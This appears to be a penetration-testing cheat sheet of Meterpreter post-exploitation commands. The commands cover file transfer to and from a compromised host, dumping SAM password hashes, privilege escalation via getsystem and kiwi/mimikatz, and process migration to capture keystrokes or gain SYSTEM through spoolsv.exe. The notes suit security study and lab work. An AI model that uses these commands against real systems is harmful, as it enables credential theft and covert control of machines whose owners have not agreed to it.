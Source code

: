```shell
help                             # show available Meterpreter commands

# basic shell commands
ls
cd <FOLDER>
pwd
cat "<FILE_PATH>"                     # display the content of a file
ps                                    # list running processes
edit <FILE_PATH>                      # edit a file
rm <FILE_PATH>                        # delete a file
upload <LOCAL_PATH> <REMOTE_PATH>     # transfer a file from the attacker's machine to the target machine
download <REMOTE_PATH> <LOCAL_PATH>   # transfer a file from the target machine to the attacker's machine

# Meterpreter specialized commands
getpid                           # get the process ID of the Meterpreter process
getuid                           # get the user that Meterpreter runs as
guid                             # get session GUID
sysinfo                          # show info about the target machine (including OS)
getprivs                         # enable and list all privileges available to the current user
search *.txt                     # look for specific files on the target host
hashdump                         # dump the content of the SAM database (user password's hashes)
getsystem                        # try to elevate privilege to system
migrate <PID>                    # migrate Meterpreter to another process on the target machine
load <METERPRETER_EXTENSION>     # load an extension : python, kiwi (updated version of mimikatz) to add new commands in Meterpreter
  
# networking
arp                              # display the target machine's ARP cache
ifconfig                         # network interfaces on the target machine
netstat                          # network connections on the target machine
route                            # view and modify the route table on the target machine

# post-exploit modules
info <POST_MODULE>               # show info about a post-exploit module
run  <POST_MODULE>               # run the post-exploit module 

shell                            # start a regular shell on the target machine (ctrl-Z to go back to Meterpreter)
background                       # send this Meterpreter shell to the background (use "sessions" to see it)
exit                             # close this Meterpreter shell
```

It can contain many other commands, like commands to control the webcam, capture keystrokes, take a screenshot, shutdown/reboot the target machine...

Migrating Meterpreter to an existing process helps Meterpreter interact with it.  
For example, we can migrate to the PID of a word-processing process (Word, Notepad...), and then capture its key strokes.  
Note that when migrating to a process, we get the privileges of the user who started the process, and we may not be able to get back to the original privileges.  
On Windows machine, the printer service `spoolsv.exe` is a good candidate to migrate to, because it runs as SYSTEM user and restarts on crash.
